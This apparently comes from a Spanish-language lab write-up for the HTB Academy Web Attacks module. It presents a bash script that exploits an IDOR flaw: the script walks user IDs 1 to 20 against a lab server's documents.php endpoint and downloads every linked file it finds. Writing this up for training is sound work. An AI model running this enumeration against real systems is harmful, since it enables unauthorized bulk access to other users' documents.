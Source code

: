 Creo el siguiente script 


```sh
#!/bin/bash

# Configuración del servidor y endpoint
host="94.237.48.35:46523"
url="http://$host/documents.php"

# Iterar sobre los valores de uid de 1 a 20
for i in {1..20}; do
    echo "[+] Enviando solicitud para UID: $i"

    # Realizar la solicitud POST y extraer los enlaces de cualquier tipo de archivo
    links=$(curl -s -X POST -H "Host: $host" --data-binary "uid=$i" "$url" | 
        grep -oP '(?<=href=\x27|href=\x22)/documents/[^"'\'' ]+' | 
        sed "s/^/'/" | awk -F"'" '{print $2}')

    if [[ -z "$links" ]]; then
        echo "[-] No se encontraron archivos para UID: $i"
        continue
    fi

    # Descargar los archivos encontrados
    for link in $links; do
        full_url="http://$host$link"
        echo "[+] Descargando: $full_url"
        wget -q "$full_url" || echo "[!] Error descargando $full_url"
    done
done

echo "[+] Descargas completadas."

```

![alt text](../assets/images/HTB_Academy_Web_Attacks/image-34.png)
